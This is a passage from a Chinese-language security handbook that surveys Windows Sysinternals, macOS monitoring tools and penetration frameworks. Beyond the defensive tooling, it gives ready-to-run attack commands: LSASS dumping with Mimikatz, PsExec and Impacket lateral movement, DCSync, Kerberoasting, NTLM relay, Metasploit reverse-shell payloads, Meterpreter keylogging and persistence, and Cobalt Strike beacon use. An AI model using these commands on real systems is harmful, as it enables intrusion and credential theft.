

## 三、跨平台安全工具

安全工具是渗透测试者和防御者的共同武器库。Windows 生态拥有最丰富的安全工具链，macOS 凭借 Unix 内核和独有框架形成了独特的工具体系，而跨平台工具则让安全从业者在不同操作系统间无缝切换。本节从三大维度展开：Windows 专属工具集（Sysinternals）、macOS 专属工具集、以及跨平台渗透框架，覆盖从日常运维到红队作战的完整工具链。

### 3.1 Sysinternals 工具集（Windows）

Sysinternals 是 Mark Russinovich 创建的 Windows 高级诊断和故障排除工具集，后被微软收购并持续维护。它是 Windows 安全分析的瑞士军刀，几乎所有 Windows 安全工程师和渗透测试者的工具箱中都有它的身影。

#### 3.1.1 核心工具详解

##### Process Explorer——进程分析利器

Process Explorer 是 Windows 任务管理器的增强替代品，提供远超原生任务管理器的进程信息深度。

**核心功能：**

| 功能 | 说明 | 安全用途 |
|------|------|----------|
| 进程树视图 | 以父子关系展示进程层级 | 识别异常父子进程关系（如 Word 启动 cmd.exe） |
| DLL 视图 | 列出进程加载的所有 DLL | 检测 DLL 注入、侧加载（Side-loading） |
| 句柄视图 | 显示进程打开的所有句柄 | 发现进程持有的文件/注册表/互斥体 |
| 签名验证 | 验证进程可执行文件的数字签名 | 识别未签名或签名异常的进程 |
| VirusTotal 集成 | 自动提交进程哈希到 VirusTotal | 快速判断进程是否为已知恶意软件 |
| GPU/网络标签 | 显示 GPU 和网络使用情况 | 发现挖矿程序或异常网络通信 |

**实战用法——检测恶意进程：**

```cmd
:: 启用 VirusTotal 集成
:: Options -> VirusTotal.com -> Check VirusTotal.com

:: 通过颜色快速识别：
:: 绿色 = 新启动的进程
:: 紫色 = 已打包/加壳的进程（重点关注）
:: 红色 = 杀毒软件刚终止的进程

:: 查看进程的命令行参数（识别可疑参数）
:: 右键列头 -> Select Columns -> Process Image -> Command Line

:: 检查进程的完整性级别
:: 右键列头 -> Select Columns -> Process Image -> Integrity Level
```

**检测 DLL 注入的流程：**

1. 打开 Process Explorer，定位可疑进程
2. 双击进程打开属性窗口，切换到 DLL 标签页
3. 按厂商（Company Name）排序，关注非微软签名的 DLL
4. 右键可疑 DLL -> Properties -> 查看签名和路径
5. 如果 DLL 路径在临时目录或异常位置，高度可疑

##### Process Monitor——实时系统监控

Process Monitor（ProcMon）是 Windows 上最强大的实时监控工具，能够捕获文件系统、注册表、进程/线程、网络活动的每一次操作。

**核心能力：**

- **事件捕获**：每秒可捕获数万条事件，覆盖五大类操作（文件系统、注册表、进程活动、网络、性能分析）
- **过滤引擎**：支持多层过滤条件（进程名、路径、操作类型、结果码等），从海量事件中精准定位目标
- **栈回溯**：每条事件都可查看完整的调用栈，追溯操作的代码级来源
- **持久化**：可将捕获数据保存为 .pml 文件供后续分析

**实战过滤模板——检测持久化行为：**

```text
过滤条件 1: Process Name is not System
过滤条件 2: Operation is RegSetValue
过滤条件 3: Path contains CurrentVersion\Run
过滤条件 4: Result is SUCCESS

操作: 捕获 -> 复现可疑行为 -> 停止捕获 -> 分析
```

**实战过滤模板——检测文件释放行为：**

```text
过滤条件 1: Operation is CreateFile
过滤条件 2: Result is SUCCESS
过滤条件 3: Path ends with .exe
过滤条件 4: Path contains Temp

用途: 检测 Dropper 释放的恶意文件
```

**ProcMon 高级技巧：**

```cmd
:: 使用 /AcceptEula 自动接受许可协议（适合脚本调用）
procmon.exe /AcceptEula /Quiet /BackingFile C:\capture.pml

:: 加载已有捕获文件进行离线分析
procmon.exe /OpenLog C:\capture.pml

:: 使用进程树视图快速查看进程的完整操作历史
:: Tools -> Process Tree -> 选择进程 -> 右键 -> Include
```

##### Autoruns——自启动项全面检测

Autoruns 是检测 Windows 持久化机制的权威工具。它枚举系统中所有自启动位置，覆盖 70+ 种持久化机制，远超任何同类工具。

**覆盖的持久化位置（部分）：**

| 类别 | 注册表位置/机制 | 说明 |
|------|----------------|------|
| Logon | HKCU/HKLM\Software\Microsoft\Windows\CurrentVersion\Run | 最常见的自启动 |
| Boot Execute | HKLM\SYSTEM\CurrentControlSet\Control\Session Manager | 会话管理器启动项 |
| Services | HKLM\SYSTEM\CurrentControlSet\Services | Windows 服务 |
| Scheduled Tasks | 任务计划程序 | 计划任务持久化 |
| Drivers | 内核驱动加载 | 内核级持久化 |
| Codecs | 媒体编解码器 | 劫持媒体处理链 |
| Winlogon | Winlogon 通知包 | 登录过程劫持 |
| AppInit DLLs | 全局 DLL 注入 | 所有 GUI 进程加载 |
| WMI | WMI 事件订阅 | 无文件持久化 |
| Office Add-ins | Office 插件 | 文档处理链劫持 |
| Browser Helper Objects | IE BHO | 浏览器劫持 |

**实战用法：**

```cmd
:: 启动 Autoruns（接受 EULA）
autoruns.exe -accepteula

:: 关键操作：
:: 1. Options -> Hide Microsoft Entries（隐藏微软签名条目，聚焦第三方）
:: 2. Options -> Scan Options -> Check VirusTotal.com（提交到 VT 检测）
:: 3. 查看 "Everything" 标签页获取完整视图
:: 4. 红色 = 未找到文件，黄色 = VirusTotal 检出

:: 命令行版本 Autorunsc（适合批量扫描）
autorunsc.exe -accepteula -a * -c -h -s -v -vt > autoruns_report.csv
:: -a *: 所有自启动类别
:: -c: CSV 输出
:: -h: 计算文件哈希
:: -s: 验证数字签名
:: -v: 查询 VirusTotal
:: -vt: 使用 VirusTotal
```

##### AccessChk——权限审计工具

AccessChk 用于检查 Windows 对象（文件、目录、注册表、服务、进程）的安全权限，是权限审计和提权路径发现的核心工具。

**实战用法——发现提权路径：**

```cmd
:: 检查当前用户可写的服务
accesschk.exe -uwcqv "Authenticated Users" * -accepteula

:: 检查可被当前用户修改的服务配置
accesschk.exe -ucqv [服务名]

:: 检查 Everyone 组可写的目录
accesschk.exe -uwdqs "Everyone" C:\

:: 检查当前用户的特权
accesschk.exe -q -a *

:: 检查特定注册表键的权限
accesschk.exe -kvuqsw "Authenticated Users" HKLM\SOFTWARE
```

#### 3.1.2 其他重要 Sysinternals 工具

| 工具 | 功能 | 安全场景 |
|------|------|----------|
| **PsExec** | 远程命令执行 | 横向移动（使用 SMB 协议） |
| **ProcDump** | 进程内存转储 | 转储 LSASS 获取凭据 |
| **PsLoggedOn** | 查看登录用户 | 域环境信息收集 |
| **TCPView** | 网络连接查看器 | 实时监控网络连接 |
| **SigCheck** | 文件签名验证 | 批量验证系统文件签名 |
| **Streams** | NTFS 流检测 | 发现隐藏的 ADS 数据 |
| **Strings** | 字符串提取 | 从二进制文件中提取可读文本 |
| **SDelete** | 安全删除 | 安全擦除文件，防止恢复 |
| **Handle** | 句柄查看 | 查看哪个进程锁定了文件 |
| **BgInfo** | 系统信息桌面显示 | 实时显示系统信息（运维场景） |

**ProcDump 转储 LSASS 实战：**

```cmd
:: 方法 1: 直接转储（需要管理员权限）
procdump.exe -accepteula -ma lsass.exe C:\lsass.dmp

:: 方法 2: 使用 MiniDump（文件更小，兼容 Mimikatz）
procdump.exe -accepteula -mm lsass.exe C:\lsass.dmp

:: 方法 3: 触发崩溃转储（绕过某些保护）
procdump.exe -accepteula -ma -r lsass.exe C:\lsass.dmp

:: 使用 Mimikatz 解析转储文件
mimikatz.exe "sekurlsa::minidump C:\lsass.dmp" "sekurlsa::logonPasswords" exit
```

**PsExec 横向移动：**

```cmd
:: 基本用法
psexec.exe \\DC01 -u domain\user -p password cmd.exe

:: 以 SYSTEM 权限执行
psexec.exe \\DC01 -s cmd.exe

:: 上传并执行文件
psexec.exe \\DC01 -c C:\payload.exe

:: 交互模式（在远程桌面会话中执行）
psexec.exe \\DC01 -i 1 cmd.exe

:: 注意: PsExec 会在目标系统创建 PSEXESVC 服务，
:: 在对抗场景中需要清理痕迹
```

### 3.2 macOS 安全工具

macOS 基于 Darwin（XNU 内核），继承了 BSD 的工具生态，同时拥有 Apple 独有的安全框架和工具链。macOS 安全工具的数量虽然少于 Windows，但在系统调用跟踪、内核监控、应用沙箱分析等方面有独特优势。

#### 3.2.1 内置安全工具

##### DTrace 框架工具族

DTrace 是 Solaris 移植到 macOS 的动态追踪框架，是 macOS 系统级分析的基础。由于 SIP（System Integrity Protection）限制，使用 DTrace 需要先禁用 SIP 或在恢复模式下操作。

**dtruss——系统调用跟踪：**

```bash
# 跟踪指定进程的系统调用（类似 Linux strace）
sudo dtruss -p <PID>

# 跟踪新启动的命令
sudo dtruss ls -la

# 跟踪文件相关系统调用
sudo dtruss -t open,read,write -p <PID>

# 输出统计信息而非逐条跟踪
sudo dtruss -c -p <PID>

# 注意: dtruss 在 SIP 保护下可能受限
# 临时禁用 SIP: 重启 -> 恢复模式 -> csrutil disable
# 用完后务必重新启用: csrutil enable
```

**opensnoop——文件打开监控：**

```bash
# 监控所有文件打开操作
sudo opensnoop

# 监控指定进程的文件操作
sudo opensnoop -p <PID>

# 监控指定命令名
sudo opensnoop -n <进程名>

# 监控指定路径模式
sudo opensnoop -f /etc

# 安全场景: 检测恶意软件访问了哪些文件
# 结合 grep 过滤可疑路径
sudo opensnoop | grep -E "/tmp|/var/folders|/Users/.*/Library"
```

**其他 DTrace 工具：**

```bash
# execsnoop: 监控进程创建
sudo execsnoop

# iocountbyfile: 按文件统计 I/O 次数
sudo iocountbyfile.d

# bitesize.d: 分析 I/O 块大小分布
sudo bitesize.d

# errinfo: 跟踪失败的系统调用
sudo errinfo -c

# procsystime: 统计进程的系统调用耗时
sudo procsystime -p <PID>
```

##### fs_usage——文件系统活动监控

```bash
# 实时监控文件系统活动（需要 root）
sudo fs_usage

# 监控指定进程
sudo fs_usage -f filesys -p <PID>

# 过滤文件系统操作类型
sudo fs_usage -f diskio    # 磁盘 I/O
sudo fs_usage -f filesys   # 文件系统
sudo fs_usage -f network   # 网络（文件系统相关）

# 输出到文件（避免终端输出过快）
sudo fs_usage -w > /tmp/fs_usage_output.txt &

# 安全场景: 检测勒索软件的文件加密行为
# 勒索软件会在短时间内大量读写文件
# fs_usage 可以捕获这种异常模式
```

##### lsof——打开文件列表

```bash
# 列出所有打开的文件
sudo lsof

# 查看指定进程打开的文件
sudo lsof -p <PID>

# 查看指定端口的使用进程
sudo lsof -i :443

# 查看指定用户打开的文件
sudo lsof -u <用户名>

# 查看指定目录下的打开文件
sudo lsof +D /Library

# 查看网络连接
sudo lsof -i -P -n

# 检测可疑的网络连接
sudo lsof -i -P -n | grep ESTABLISHED | grep -v "Apple"
```

##### log 命令——统一日志系统

macOS 10.12+ 使用统一日志系统（Unified Logging），取代了传统的 syslog。

```bash
# 实时查看系统日志
sudo log stream

# 按进程过滤
sudo log stream --process <进程名>

# 按子系统过滤
sudo log stream --subsystem com.apple.securityd

# 查看指定时间范围的日志
sudo log show --start "2026-01-01 00:00:00" --end "2026-01-02 00:00:00"

# 查看安全相关事件
sudo log show --predicate 'subsystem == "com.apple.securityd"' --last 1h

# 导出日志供离线分析
sudo log collect --output /tmp/system_logs.logarchive

# 安全场景: 审计 Gatekeeper 拦截事件
sudo log show --predicate 'eventMessage contains "Gatekeeper"' --last 24h
```

#### 3.2.2 第三方安全工具

##### Objective-See 工具套件

Objective-See（由 Patrick Wardle 创建）是 macOS 安全领域最重要的开源工具集，专注于 macOS 恶意软件检测和安全监控。

**KnockKnock——持久化项目扫描：**

KnockKnock 扫描 macOS 上所有已知的持久化机制，类似于 Windows 上的 Autoruns。

```bash
# 下载安装
# https://objective-see.org/products/knockknock.html

# GUI 使用: 扫描所有持久化项目
# 命令行模式:
knockknock -unpa -json /tmp/kk_results.json
# -unpa: 没有用户提示，自动分析
# -json: JSON 格式输出

# 检测的持久化类型:
# - Login Items（登录项）
# - Launch Agents（用户级守护进程）
# - Launch Daemons（系统级守护进程）
# - Kernel Extensions（内核扩展）
# - Browser Extensions（浏览器扩展）
# - Spotlight Importers（Spotlight 导入器）
# - Login/Logout Hooks（登录/注销钩子）
# - Periodic Scripts（定时脚本）
# - Authorization Plugins（认证插件）
# - Scripting Additions（脚本添加项）
```

**BlockBlock——持久化行为实时监控：**

BlockBlock 是一个常驻监控工具，当有新的持久化项目被安装时会发出实时警报。

```bash
# 功能特点:
# - 监控 LaunchAgents/LaunchDaemons 目录变化
# - 监控内核扩展加载
# - 监控登录项添加
# - 每次持久化安装都会弹窗通知
# - 可选择允许或阻止

# 适合场景:
# - 安装未知软件时监控其持久化行为
# - 检测恶意软件的驻留尝试
# - 红队测试时观察防御反应
```

**RansomWhere?——勒索软件检测：**

```bash
# 功能: 监控文件加密行为
# - 检测短时间内大量文件被加密的模式
# - 监控高熵值写入操作（加密文件的特征）
# - 检测已知勒索软件的签名

# 工作原理:
# 1. 监控所有进程的文件写入操作
# 2. 计算写入内容的熵值
# 3. 如果某进程短时间内高熵值写入大量文件，触发警报
# 4. 自动暂停可疑进程
```

**OverSight——摄像头和麦克风监控：**

```bash
# 功能: 监控摄像头和麦克风的访问
# - 当应用访问摄像头时弹窗通知
# - 当应用访问麦克风时弹窗通知
# - 可以阻止未授权的访问
# - 记录所有访问历史

# 安全场景: 检测间谍软件的偷拍/偷听行为
```

**其他 Objective-See 工具：**

| 工具 | 功能 | 说明 |
|------|------|------|
| **TaskExplorer** | 进程分析器 | 查看进程加载的库、网络连接、打开的文件 |
| **What's Your Sign** | 签名验证 | 在 Finder 中显示文件的代码签名状态 |
| **KextViewr** | 内核扩展查看器 | 列出所有已加载的内核扩展 |
| **Dylib劫持扫描器** | Dylib Hijack Scanner | 检测 dylib 劫持漏洞 |
| **Lulu** | 应用防火墙 | 拦控应用程序的网络连接 |
| **Santa** | 应用白名单 | Google 开源，基于规则允许/阻止应用执行 |
| **ReiKey** | 键盘记录器检测 | 检测键盘事件监听器 |

##### 网络安全工具

**Little Snitch——网络连接防火墙：**

Little Snitch 是 macOS 上最知名的应用级防火墙，能够拦截和控制所有出站网络连接。

```bash
# 核心功能:
# - 每个应用的网络连接都需要用户授权
# - 规则支持域名、IP、端口、协议的精细匹配
# - 网络监控地图（实时可视化网络连接）
# - 连接历史记录和统计
# - 静默模式（自动阻止/允许，适合服务器）

# 安全场景:
# - 检测恶意软件的 C2 通信
# - 发现应用的隐蔽数据外传
# - 分析应用的网络行为模式

# 规则导出/导入:
# Little Snitch -> File -> Export Rules
# 适合在多台机器间同步安全策略
```

**Wireshark/tshark——网络抓包：**

```bash
# 安装 Wireshark
brew install wireshark

# 命令行抓包
sudo tshark -i en0 -w /tmp/capture.pcap

# 过滤 HTTP 流量
sudo tshark -i en0 -f "port 80"

# 过滤 DNS 查询
sudo tshark -i en0 -f "port 53"

# 提取 HTTP 文件传输
sudo tshark -i en0 -f "port 80" -Y "http.request.method == GET" -T fields -e http.host -e http.request.uri
```

### 3.3 跨平台渗透工具

跨平台工具是安全从业者的通用武器，可以在 Windows、macOS、Linux 上运行，提供一致的攻击和防御能力。

#### 3.3.1 Metasploit Framework

Metasploit 是最广泛使用的渗透测试框架，支持 Windows、macOS、Linux 的攻击载荷和后渗透模块。

##### Windows 攻击模块

```ruby
# 启动 Metasploit
msfconsole

# EternalBlue (MS17-010) - SMB 远程代码执行
use exploit/windows/smb/ms17_010_eternalblue
set RHOSTS 192.168.1.100
set PAYLOAD windows/x64/meterpreter/reverse_tcp
set LHOST 192.168.1.50
set LPORT 4444
exploit

# PsExec 远程执行（需要凭据）
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass password123
set PAYLOAD windows/meterpreter/reverse_tcp
exploit

# 后渗透模块 - 凭据收集
use post/windows/gather/credentials/credential_collector
set SESSION 1
run

# 后渗透模块 - 进程迁移（稳定 Meterpreter 会话）
use post/windows/manage/migrate
set SESSION 1
set SPAWN true
run

# 哈希传递攻击 (Pass-the-Hash)
use exploit/windows/smb/psexec
set RHOSTS 192.168.1.100
set SMBUser administrator
set SMBPass aad3b435b51404eeaad3b435b51404ee:e0fb1fb85756c24235ff238cbe81fe00
exploit

# 令牌窃取和模拟
use incognito
list_tokens -u
impersonate_token "DOMAIN\Administrator"

# 持久化 - 计划任务
use exploit/windows/local/persistence_service
set SESSION 1
set STARTUP SYSTEM
run
```

##### macOS 攻击模块

```ruby
# Safari 文件策略绕过
use exploit/osx/browser/safari_file_policy
set SRVHOST 192.168.1.50
set URIPATH /exploit
exploit

# macOS 后渗透 - 枚举 Chrome 浏览器数据
use post/osx/gather/enum_chrome
set SESSION 2
run

# macOS 后渗透 - 枚举 Keychain
use post/osx/gather/enum_keychain
set SESSION 2
run

# macOS 后渗透 - 枚举系统信息
use post/osx/gather/enum_osx
set SESSION 2
run

# macOS 载荷生成
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f macho > payload.macho

# macOS 应用捆绑包载荷
msfvenom -p osx/x64/meterpreter_reverse_tcp LHOST=192.168.1.50 LPORT=4444 -f appbundle -o /tmp/evil.app
```

##### 跨平台 Meterpreter 命令

```ruby
# 系统信息收集
sysinfo                # 系统信息
getuid                 # 当前用户
getprivs               # 特权列表
getpid                 # 当前进程 ID
getenv                 # 环境变量

# 文件操作
upload /local/file /remote/path   # 上传文件
download /remote/file /local/path # 下载文件
edit /remote/file                 # 编辑文件
search -f *.txt -d C:\Users       # 搜索文件

# 网络操作
portfwd add -l 3389 -p 3389 -r 192.168.1.100  # 端口转发
arp                    # ARP 表
route                  # 路由表
netstat                # 网络连接

# 凭据获取
hashdump               # SAM 哈希转储
kerberos_tickets       # Kerberos 票据
load kiwi              # 加载 Mimikatz
creds_all              # 获取所有凭据

# 持久化
run persistence -U -i 5 -p 4443 -r 192.168.1.50  # 用户级持久化
run metsvc             # 安装 Meterpreter 服务

# 屏幕和摄像头
screenshot             # 截屏
screenshare            # 实时屏幕共享
webcam_list            # 列出摄像头
webcam_snap            # 拍照
keyscan_start          # 开始键盘记录
keyscan_dump           # 导出键盘记录
```

#### 3.3.2 Impacket 工具集

Impacket 是 Python 编写的网络协议工具集，专注于 Windows 协议的攻击利用，是域渗透的必备工具。

##### 远程执行工具

```bash
# psexec 风格远程执行（通过 SMB 上传服务）
impacket-psexec domain/user:password@192.168.1.100
# 执行原理: 上传 PsExec 服务 -> 创建服务 -> 启动服务 -> 获取 SYSTEM shell

# wmiexec 远程执行（通过 WMI，更隐蔽）
impacket-wmiexec domain/user:password@192.168.1.100
# 执行原理: 通过 WMI 远程创建进程，不会创建服务，更难被检测

# smbexec 远程执行（通过 SMB，不上传文件）
impacket-smbexec domain/user:password@192.168.1.100
# 执行原理: 通过 SMB 命名管道执行命令

# atexec 远程执行（通过计划任务）
impacket-atexec domain/user:password@192.168.1.100 "whoami"
# 执行原理: 创建远程计划任务执行命令

# dcomexec 远远执行（通过 DCOM）
impacket-dcomexec domain/user:password@192.168.1.100
# 执行原理: 通过 DCOM 对象远程执行，支持多种 DCOM 协议
```

##### 凭据获取和域攻击

```bash
# DCSync - 获取域控哈希（需要域管权限）
impacket-secretsdump domain/admin:password@192.168.1.1
# 输出: 域内所有用户的 NTLM 哈希

# 从 SAM 文件提取哈希（本地）
impacket-secretsdump -sam SAM -system SYSTEM -security SECURITY LOCAL

# Kerberoasting - 获取服务票据并离线破解
impacket-GetUserSPNs domain/user:password -dc-ip 192.168.1.1 -request
# 输出: SPN 关联的服务账号 TGS 票据（可离线破解）

# AS-REP Roasting - 获取无预认证用户的哈希
impacket-GetNPUsers domain/ -usersfile users.txt -dc-ip 192.168.1.1 -format hashcat

# NTLM Relay - NTLM 中继攻击
impacket-ntlmrelayx -t 192.168.1.100 -smb2support
# 配合 Responder 使用: Responder 捕获 NTLM 认证 -> ntlmrelayx 中继到目标

# SMB 客户端
impacket-smbclient domain/user:password@192.168.1.100

# 枚举共享
impacket-smbclient domain/user:password@192.168.1.100 -list

# RPC 枚举
impacket-rpcdump domain/user:password@192.168.1.100
```

#### 3.3.3 Nmap 网络扫描

```bash
# 基础扫描
nmap -sV -sC -O 192.168.1.0/24     # 服务版本 + 默认脚本 + OS 检测

# 快速扫描（常见端口）
nmap -T4 -F 192.168.1.0/24

# 全端口扫描
nmap -p- -T4 192.168.1.100

# UDP 扫描（容易遗漏）
nmap -sU -T4 --top-ports 100 192.168.1.100

# 漏洞扫描脚本
nmap --script vuln 192.168.1.100

# SMB 枚举脚本
nmap --script smb-enum-shares,smb-enum-users,smb-os-discovery -p 445 192.168.1.100

# 输出结果
nmap -oX scan_results.xml 192.168.1.0/24    # XML 格式
nmap -oN scan_results.txt 192.168.1.0/24    # 标准格式
nmap -oG scan_results.grep 192.168.1.0/24   # Grep 友好格式
```

#### 3.3.4 BloodHound——域环境攻击路径分析

BloodHound 使用图论分析 Active Directory 环境中的攻击路径，是最强大的域渗透分析工具。

```bash
# 数据收集（SharpHound - Windows 端）
SharpHound.exe -c All -d domain.local

# 数据收集（Python 版 - 跨平台）
bloodhound-python -u user -p password -d domain.local -dc dc.domain.local -c All

# Neo4j 数据库启动（Kali 默认安装）
sudo neo4j console

# BloodHound GUI
# 1. 启动 BloodHound
# 2. 导入收集的 JSON 文件
# 3. 查询预设:
#    - Find all Domain Admins
#    - Find Shortest Path to Domain Admins
#    - Find Principals with DCSync Rights
#    - Users with Foreign Domain Group Membership

# 常用 Cypher 查询
# 查找从指定用户到 Domain Admin 的最短路径
MATCH p=shortestPath((u:User {name:'USER@DOMAIN.LOCAL'})-[*1..]->(g:Group {name:'DOMAIN ADMINS@DOMAIN.LOCAL'})) RETURN p

# 查找所有 Kerberoastable 用户
MATCH (u:User {hasspn:true}) WHERE NOT u.name STARTS WITH 'KRBTGT' RETURN u

# 查找 DCSync 权限
MATCH (n)-[:GetChanges|GetChangesAll*1..]->(d:Domain) RETURN n
```

#### 3.3.5 Cobalt Strike——商业红队框架

```bash
# Team Server 启动（Linux）
sudo ./teamserver 192.168.1.50 password123

# Beacon 命令
beacon> shell whoami                # 执行系统命令
beacon> upload /local/file          # 上传文件
beacon> download /remote/file       # 下载文件
beacon> sleep 60                    # 设置回连间隔（60秒）
beacon> jitter 30                   # 设置抖动（±30%）
beacon> socks 1080                  # 启动 SOCKS 代理
beacon> portscan 192.168.1.0/24 445 tcp  # 端口扫描
beacon> hashdump                    # 转储哈希
beacon> mimikatz lsadump::sam       # 执行 Mimikatz
beacon> elevate uac-schtasks        # UAC 绕过提权
beacon> spawn x64                   # 生成新 Beacon 进程
beacon> inject <PID> x64            # 注入到指定进程

# C2 配置文件（Malleable C2 Profile）
# 自定义 HTTP 通信协议，模拟正常网站流量
# 可以伪装成 jQuery CDN 请求、WordPress 页面等
```

#### 3.3.6 跨平台密码和哈希工具

**Hashcat——GPU 密码破解：**

```bash
# NTLM 哈希破解
hashcat -m 1000 ntlm_hashes.txt rockyou.txt

# Kerberos TGS 票据破解
hashcat -m 13100 tgs_hashes.txt rockyou.txt

# macOS 密码哈希破解
hashcat -m 7100 osx_hashes.txt rockyou.txt -r rules/best64.rule

# 掩码攻击（8位小写字母+数字）
hashcat -m 1000 ntlm_hashes.txt -a 3 ?l?l?l?l?l?l?d?d

# 带规则的字典攻击
hashcat -m 1000 ntlm_hashes.txt rockyou.txt -r rules/d3ad0ne.rule

# 恢复已中断的破解会话
hashcat --session=mysession --restore
```

**John the Ripper——密码破解：**

```bash
# 破解 Windows SAM 哈希
john --format=nt --wordlist=rockyou.txt ntlm_hashes.txt

# 破解 /etc/shadow
john --format=sha512crypt --wordlist=rockyou.txt shadow.txt

# 破解 macOS 密码哈希
john --format=pbkdf2-hmac-sha512 --wordlist=rockyou.txt osx_hashes.txt

# 增量模式（暴力破解）
john --incremental ntlm_hashes.txt

# 显示已破解的密码
john --show ntlm_hashes.txt
```

#### 3.3.7 跨平台信息收集工具

```bash
# ADRecon - Active Directory 环境信息收集
# PowerShell 脚本，收集 AD 域、用户、组、策略等信息
Import-Module .\ADRecon.ps1
Invoke-ADRecover -OutputType HTML -OutputDirectory C:\ADRecon

# BloodHound 数据收集后用以下查询:
# 查找 Kerberoastable 服务账号
# 查找 AS-REP Roastable 用户
# 查找信任关系
# 查找 GPO 链接

# enum4linux - SMB/NetBIOS 枚举（跨平台）
enum4linux -a 192.168.1.100
# 输出: 用户列表、组列表、共享列表、策略信息

# rpcclient - RPC 枚举
rpcclient -U user%password 192.168.1.100
rpcclient> enumdomusers     # 枚举域用户
rpcclient> enumdomgroups    # 枚举域组
rpcclient> queryuser 500    # 查询用户信息
```

### 3.4 工具选型对比

#### Windows vs macOS 安全工具对比

| 能力域 | Windows 工具 | macOS 工具 | 说明 |
|--------|-------------|-----------|------|
| 进程分析 | Process Explorer | Activity Monitor + lsof | Windows 工具更专业 |
| 实时监控 | Process Monitor | fs_usage + opensnoop | ProcMon 功能更全面 |
| 持久化检测 | Autoruns | KnockKnock | 覆盖面相当 |
| 网络防火墙 | Windows Firewall | Little Snitch | macOS 工具更精细 |
| 系统调用跟踪 | API Monitor | dtruss | 各有优势 |
| 日志分析 | Event Viewer | log 命令 | Windows 日志更结构化 |
| 凭据提取 | Mimikatz | Keychain Access | 机制完全不同 |
| 内核分析 | WinDbg | kernel debugging | WinDbg 生态更成熟 |

#### 跨平台工具适用场景速查

| 场景 | 推荐工具 | 平台 |
|------|---------|------|
| 网络扫描 | Nmap | 全平台 |
| 漏洞利用 | Metasploit | 全平台 |
| 域渗透 | Impacket + BloodHound | Python 环境 |
| 密码破解 | Hashcat + John | 全平台（GPU 推荐 Linux） |
| Web 渗透 | Burp Suite | Java 环境 |
| 流量分析 | Wireshark | 全平台 |
| 逆向分析 | Ghidra / IDA Pro | 全平台 |
| 红队 C2 | Cobalt Strike | Server: Linux, Client: Java |

### 3.5 常见误区与纠正

| 误区 | 正确认识 |
|------|---------|
| Sysinternals 工具需要安装 | 大部分 Sysinternals 工具是免安装的单文件，下载即可运行 |
| macOS 没有病毒，不需要安全工具 | macOS 恶意软件数量逐年增长，Silver Sparrow、XCSSET 等已证明 macOS 并非安全 |
| Metasploit 只能用于攻击 | Metasploit 也广泛用于防御验证、漏洞评估和安全培训 |
| Impacket 只能在 Linux 上运行 | Impacket 是纯 Python 库，Windows/macOS/Linux 均可运行 |
| Cobalt Strike 比 Metasploit 更强 | 两者定位不同：CS 擅长持久化和隐蔽通信，MSF 擅长漏洞利用和快速攻击 |
| Little Snitch 会拖慢系统 | 现代版本对性能影响极小（<2% CPU），安全性远大于性能开销 |
| BloodHound 只在渗透时有用 | BloodHound 同样是优秀的防御工具，用于发现 AD 环境中的攻击路径并提前加固 |
| DTrace 在 macOS 上完全可用 | SIP 限制了 DTrace 的使用，某些操作需要禁用 SIP |

### 3.6 进阶：构建跨平台安全工具链

#### 自动化工具部署脚本

```bash
#!/bin/bash
# macOS 安全工具一键部署
# 文件: deploy_macos_security.sh

# Objective-See 工具
OBJECTIVE_SEE_TOOLS=(
    "https://objective-see/products/knockKnock.html"
    "https://objective-see/products/blockBlock.html"
    "https://objective-see/products/overSight.html"
    "https://objective-see/products/ransomWhere.html"
)

# Homebrew 安装的工具
BREW_TOOLS=(
    "nmap"
    "wireshark"
    "tcpdump"
    "john"
    "hashcat"
    "hydra"
    "nikto"
    "sqlmap"
    "impacket"
)

echo "[*] 安装 Homebrew 工具..."
for tool in "${BREW_TOOLS[@]}"; do
    brew install "$tool" 2>/dev/null || echo "[!] $tool 安装失败"
done

echo "[*] 安装 Python 安全工具..."
pip3 install impacket bloodhound crackmapexec

echo "[*] 下载 Objective-See 工具..."
mkdir -p ~/SecurityTools/ObjectiveSee
for url in "${OBJECTIVE_SEE_TOOLS[@]}"; do
    echo "  请手动下载: $url"
done

echo "[+] 安装完成"
```

#### Windows Sysinternals 批量下载脚本

```powershell
# PowerShell: 批量下载 Sysinternals 工具
$tools = @(
    "procexp.exe", "procmon.exe", "autoruns.exe", "autorunsc.exe",
    "accesschk.exe", "psexec.exe", "psexec64.exe", "procdump.exe",
    "procdump64.exe", "tcpview.exe", "sigcheck.exe", "streams.exe",
    "strings.exe", "sdelete.exe", "handle.exe", "listdlls.exe",
    "psloggedon.exe", "logonsessions.exe", "bginfo.exe"
)

$baseUrl = "https://live.sysinternals.com/tools"
$outputDir = "C:\Sysinternals"

New-Item -ItemType Directory -Path $outputDir -Force | Out-Null

foreach ($tool in $tools) {
    Write-Host "[*] 下载 $tool..." -ForegroundColor Yellow
    try {
        Invoke-WebRequest -Uri "$baseUrl/$tool" -OutFile "$outputDir\$tool" -ErrorAction Stop
        Write-Host "[+] $tool 下载完成" -ForegroundColor Green
    } catch {
        Write-Host "[!] $tool 下载失败: $_" -ForegroundColor Red
    }
}

